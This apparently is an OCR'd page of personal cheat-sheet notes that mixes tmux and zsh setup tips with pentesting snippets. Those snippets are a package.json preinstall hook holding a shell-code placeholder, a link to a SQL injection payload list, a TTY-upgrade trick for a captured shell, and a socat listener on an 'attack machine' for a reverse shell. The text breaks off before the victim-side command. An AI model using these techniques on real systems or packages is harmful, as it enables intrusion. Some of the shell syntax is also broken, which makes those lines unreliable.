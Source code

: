 - Change file's details  to
  
              {
              "name": ".nodeitems",
              "scripts": {
                      "preinstall": "[shell code]"
               }
            }

--------------------

### TERMUX: Adding tmux to your ~/.zlogin to prevent errors

      if [-z "$TMUX"]; then
      exec tmux
      fi
- Explanation: $TMUX vsriable prevents nested tmux instances are started on login shells. `exec` will replace current process with a new one i.e. current shell will be terminated and tmux instance with shell inside will be started, so you won't need to exit twice.

-------------------

### Adding tmux to your custom zsh shell

- Add tmux plugin to your plugins

      plugins(tmux)

- Set `ZSH_TMUX_AUTOSTART=true` in your `.zshrc`
- Note that you have to add this assignment before the line

      source $ZSH/oh-my-zsh.sh

-------------------

### 0XTIberius's sql payload

- [OxTiberius'slist](https://tib3rius.com/sqli.html)

-------------------

### Using /usr/bin/script to spawn shell

      /usr/bin/script -qc /bin/bash /dev/null
      ctrl + z
      stty raw -echo; fg; reset

---------------------

### Spawning shell with socat

- Attack Machine
  
      socat file:`tty`,raw,echo=0 tcp-listen:[port]

- Victim machine
